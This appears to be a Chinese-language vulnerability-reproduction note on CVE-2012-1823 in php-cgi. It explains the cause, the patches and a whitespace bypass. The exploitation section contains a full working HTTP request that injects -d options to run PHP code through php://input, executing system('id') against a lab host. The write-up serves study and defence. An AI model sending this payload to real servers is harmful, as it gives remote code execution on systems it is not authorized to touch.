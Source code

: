 ```yaml
---
title: CVE-2012-1823
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-28T21:09:33+08:00
categories: 
- 渗透测试
- 漏洞复现
- Php
---
```


## CVE-2012-1823

**漏洞成因**

由于开发者为了方便测试，而开放了php-cgi接收参数的功能，而该功能的参数不仅是能够通过命令行传入，同样可以使用qerystring的方式传入，至此可以调用cgi命令

**漏洞利用**

cgi模式下的一些参数

```
-c 指定php.ini文件的位置
-n 不要加载php.ini文件
-d 指定配置项
-b 启动fastcgi进程
-s 显示文件源码
-T 执行指定次该文件
-h和-? 显示帮助
```

直接利用-s可以显示源码

![2012-1823](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\2012-1823.jpg)

可通过-d指定autp_prepend_file来造成任意文件包含，执行任意代码

```php
GET /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 192.168.121.140:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 21

<?php system('id');?>
```

![2012-1823](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\2012-1823.png)

**漏洞原理**

在新版本5.42和5.3.12中对该漏洞进行了修复，修复的方法是检查querystring的-参数

```php
if(query_string = getenv("QUERY_STRING")) {
    decoded_query_string = strdup(query_string);
    php_url_decode(decoded_query_string, strlen(decoded_query_string));
    if(*decoded_query_string == '-' && strchr(decoded_query_string, '=') == NULL) {
        skip_getopt = 1;
    }
    free(decoded_query_string);
}
```

如果检测到第一个字符是-就进行跳过，不再获取命令行参数，但是如果运维对php-cgi进行了一层封装的情况下

```php
#!/bin/sh

exec /usr/local/bin/php-cgi $*
```

就可以通过空白符+-的形式进行对第一个字符检测的绕过，在php5.4.3和5.3.13中再次进行了修改

```php
if((query_string = getenv("QUERY_STRING")) != NULL && strchr(query_string, '=') == NULL) {
    /* we've got query string that has no = - apache CGI will pass it to command line */
    unsigned char *p;
    decoded_query_string = strdup(query_string);
    php_url_decode(decoded_query_string, strlen(decoded_query_string));
    for (p = decoded_query_string; *p &&  *p <= ' '; p++) {
        /* skip all leading spaces */
    }
    if(*p == '-') {
        skip_getopt = 1;
    }
    free(decoded_query_string);
}
```

这次不再只是检测首个字符是否为-，而是通过跳过所有的空白符再进行-的检测，如果有则skip_getopt=1至此分析结束

